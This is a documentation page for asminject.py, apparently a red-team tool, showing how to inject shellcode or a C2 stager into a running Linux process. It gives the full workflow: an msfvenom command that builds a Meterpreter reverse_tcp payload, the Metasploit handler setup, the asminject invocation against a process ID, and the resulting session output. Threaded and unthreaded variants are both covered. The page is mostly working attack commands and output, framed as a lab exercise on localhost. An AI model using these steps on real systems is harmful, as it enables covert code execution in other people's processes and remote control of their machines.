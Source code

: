 # asminject.py examples - Shellcode/stager injection

* [Background](#background)
* [Important](#important)
* [Shellcode injection with multithreading](#shellcode-injection-with-multithreading)
* [Shellcode injection without multithreading](#shellcode-injection-without-multithreading)

## Background

Sometimes one's goal is easiest to achieve by injecting pre-existing shellcode (or a C2 stager) directly into process memory. This set of examples covers how to do that using `asminject.py`.

## Important

Regardless of the binary code you want to inject, in most cases you should avoid causing it to issue a process-level `exit`, as this will cause the target process to exit as well. In my testing, common C2 agents for Linux will perform a system-level exit instead of a thread-level exit. I assume this is because unlike Windows, where calling a thread-level `exit` is more or less the same across versions, locating and calling the `pthread_exit` function on an arbitrary Linux distribution and version is more complicated, and so most(?) C2 authors don't implement it.

In the case of [Sliver](https://github.com/BishopFox/sliver) and [Metasploit](https://github.com/rapid7/metasploit-framework), what this means is that instead of e.g. calling `kill` in a Sliver session or `exit` in a Meterpreter session, you should just send the session to the background unless you absolutely want the target process to exit.

## Shellcode injection with multithreading

The `execute_precompiled-threaded.s` payload is the preferred option for injecting shellcode or similar into an existing process using `asminject.py`. It launches the code in a separate thread, so the target process will continue executing normally after injection. This example uses that payload to launch a Meterpreter agent via an injected stager.

Launch a harmless process that simulates one with access to super-secret, sensitive data:

```
$ sudo python3 practice/python_loop.py

2022-05-12T20:11:30.614271 - Loop count 0
2022-05-12T20:11:35.616574 - Loop count 1
2022-05-12T20:11:40.620506 - Loop count 2
```

In a separate terminal, generate a Meterpreter payload, then launch a listener:

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp -f raw \
   -o lmrt11443 LHOST=127.0.0.1 LPORT=11443

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Saved as: lmrt11443

# msfconsole

...omitted for brevity...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 11443
LPORT => 11443
msf6 exploit(multi/handler) > exploit


[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:11443 
```

In a third terminal, locate the process and inject the Meterpreter payload into it. Note the use of the `--precompiled` option to specify the `lmrt11443` shellcode.

```
# ps auxww | grep python3

root     2144475  [...] sudo python3 practice/python_loop.py
root     2144476  [...] python3 practice/python_loop.py

# python3 ./asminject.py 2144476 execute_precompiled-threaded.s \
   --stop-method "slow" --precompiled lmrt11443

...omitted for brevity...
```

You should see the following pop up in the third terminal:

```
[*] Sending stage (3008420 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:11443 -> 127.0.0.1:53682) at 2021-06-07 14:44:14 -0700

meterpreter > sysinfo
Computer     : 192.168.218.135
OS           : Debian  (Linux 5.10.0-kali3-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

## Shellcode injection without  multithreading

The `execute_precompiled.s` payload is identical to the `execute_precompiled-threaded.s` payload, except that it does not spawn a separate thread. This has the downside of not allowing the target process to keep executing normally after injection, but means that `libpthread` is not required. Just swap out the payload name, e.g.:

```
# python3 ./asminject.py 2144476 execute_precompiled.s \
   --stop-method "slow" --precompiled lmrt11443
```

Unless the shellcode is written specifically to return, this payload will never inform `asminject.py` that it is finished, so you'll need to Ctrl-C out of `asminject.py` after injection is successful.